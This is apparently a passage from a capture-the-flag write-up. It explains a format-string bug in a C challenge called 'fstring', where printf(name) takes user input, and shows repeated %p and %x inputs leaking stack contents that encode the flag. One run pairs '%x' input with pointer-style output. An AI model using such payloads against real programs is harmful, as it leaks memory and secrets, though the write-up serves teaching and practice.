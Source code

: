 ```c
        puts("hi, welcome to fstring!");
        vuln();
        return 0;
}
```

As we can see the input is sanitized by using fgets, it only accept 256 character so we cannot buffer offervlow it. But if we look more closely, at the last line of vuln function there is **`printf(name);`**. F in printf stands for formatting. It can format our variabel with our desired format.

for example:

```md
printf("%d %d %d %d %d", 1, 2, 3, 4, 5);
will output: 1 2 3 4 5
```

we can also specify our desired format with **`%n$d`** for example:

```md
printf("%2$d %1$d %3$d %5$d %4$d", 1, 2, 3, 4, 5);
will output : 2 1 3 5 4
```

See the difference? So how can we exploit the formatting string. if we didn't specify any formatting in printf we can exploit it by using the format string itself. wait whattt? how?

because the printf didn't specify any formatting we can use for example: **`%x`** to print hexadecimal number but what hexadecimal would the printf print? becuase we input %x, the printf think that it needs hexadecimal number and it will grab one from the stack itself. if we put **`%x %x %x %x %x`** it will grab 5 hexadecimal from the stack because we didn't give the printf function to print to.

if we run the binary it will ask for input and if we use **`%p %p %p %p %p`**

```md
hi, welcome to fstring!
what's your name?
%x %x %x %x %x
hello, 0x7ffc01c289e0 0x7fdebadae8c0 (nil) 0x7 (nil)
```

as you can see it will output random value from the stack. if we look carefully the readFlag function is inside the vuln function itself so the flag must be in the stack, so we just need to find where the flag is. We can use **`%x`** or **`%p`** or even **`%ld`**

```md
hi, welcome to fstring!
what's your name?
%p %p %p %p %p %p %p %p %p %p
hello, 0x7fff91459780 0x7fb7ed9758c0 (nil) 0x7 (nil) 0x5f6573757b465443 0x635f66746e697270 0x796c6c7566657261 0x7f7d7a6c705f 0x7025207025207025

run the function again 1 more time

hi, welcome to fstring!
what's your name?
%p %p %p %p %p %p %p %p %p %p
hello, 0x7ffc069220b0 0x7f9093e858c0 (nil) 0x7 (nil) 0x5f6573757b465443 0x635f66746e697270 0x796c6c7566657261 0x7f7d7a6c705f 0x7025207025207025
```
